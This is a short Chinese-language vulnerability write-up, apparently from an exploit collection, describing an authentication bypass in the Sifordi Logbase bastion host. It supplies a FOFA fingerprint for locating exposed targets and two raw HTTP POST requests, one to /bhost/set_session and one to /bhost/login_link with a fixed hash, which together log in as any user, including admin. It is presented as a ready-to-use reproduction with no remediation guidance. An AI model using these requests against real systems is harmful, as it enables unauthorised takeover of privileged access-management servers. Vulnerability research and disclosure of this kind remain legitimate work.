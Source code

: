 # 思福迪堡垒机 任意⽤户登录漏洞

## 漏洞描述
思福迪堡垒机存在任意⽤户登录漏洞，恶意攻击者可以绕过堡垒机的密码登录验证机制，以任 意⽤户身份随意登录堡垒机Web管理界⾯，并可以正常的使⽤账户权限去操作。

## 漏洞影响

`思福迪堡垒机`

## FOFA

`"Logbase运维安全管理系统"`

## 漏洞复现

获取INFO字段，u1参数值为⽤户名

```bash
POST /bhost/set_session HTTP/1.1
Host: xxx.xxx.xxx.xx
u1=admin&m1=
```
获得：`{"result":true,"info":"1562205376847","ErrMsg":""}`

带⼊INFO字段进⼊如下请求的 a0 参数值中,uCode参数值为⽤户名

```bash
POST /bhost/login_link HTTP/1.1
Host: xxx.xxx.xxx.xxx
a0=1562205376847&a1=&a10=2019-01-
01+10:10:10&ha=CADFDF26E649FB6284D2FD424BD294B6&uCode=admin&vdcode=
```

利用后即可登录后台

![](resource/任意用户登录漏洞/media/1.png)